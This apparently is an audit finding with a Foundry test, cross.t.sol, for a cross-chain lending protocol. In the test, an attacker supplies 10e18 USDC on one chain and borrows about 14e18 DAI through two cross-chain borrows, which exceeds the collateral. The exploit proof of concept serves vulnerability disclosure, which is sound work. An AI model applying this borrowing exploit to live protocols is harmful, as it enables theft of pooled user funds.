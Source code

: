```cross.t.sol``` to test/ folder
    // ----------------------
    daiA.approve(address(coreRouterA), type(uint).max);
    usdcA.approve(address(coreRouterA), type(uint).max);

    coreRouterA.supply(10e18, address(daiA));
    coreRouterA.supply(10e18, address(usdcA));

    daiB.approve(address(coreRouterB), type(uint).max);
    usdcB.approve(address(coreRouterB), type(uint).max);

    coreRouterB.supply(10e18, address(daiB));
    coreRouterB.supply(10e18, address(usdcB));

    daiC.approve(address(coreRouterC), type(uint).max);
    usdcC.approve(address(coreRouterC), type(uint).max);

    coreRouterC.supply(10e18, address(daiC));
    coreRouterC.supply(10e18, address(usdcC));

    usdcA.transfer(attacker, 10e18); // Initial balance for attacker.

    // ----------------------

  }

  function test_attack() public {
    vm.startPrank(attacker);

    usdcA.approve(address(coreRouterA), type(uint).max);

    coreRouterA.supply(10e18, address(usdcA));

    crossChainRouterA.borrowCrossChain(7e18, address(daiA), 2, address(crossChainRouterB)); 
    crossChainRouterA.borrowCrossChain(7e18, address(daiA), 3, address(crossChainRouterC));
   
    // Here the attacker has borrowed around 14e18 dai just by supplying 10e18 of usdc.

  } 

}


```

From the final test in cross.t.sol:

```solidity
function test_attack() public {
    vm.startPrank(attacker);

    usdcA.approve(address(coreRouterA), type(uint).max);

    coreRouterA.supply(10e18, address(usdcA));

    crossChainRouterA.borrowCrossChain(7e18, address(daiA), 2, address(crossChainRouterB)); 
    crossChainRouterA.borrowCrossChain(7e18, address(daiA), 3, address(crossChainRouterC));
   
    // Here the attacker has borrowed around 14e18 dai just by supplying 10e18 of usdc.

  } 
```
(The price has been set to 1:1)
The attacker supplies collateral worth $10 on chain A and borrows around  $14 on both chains combined.
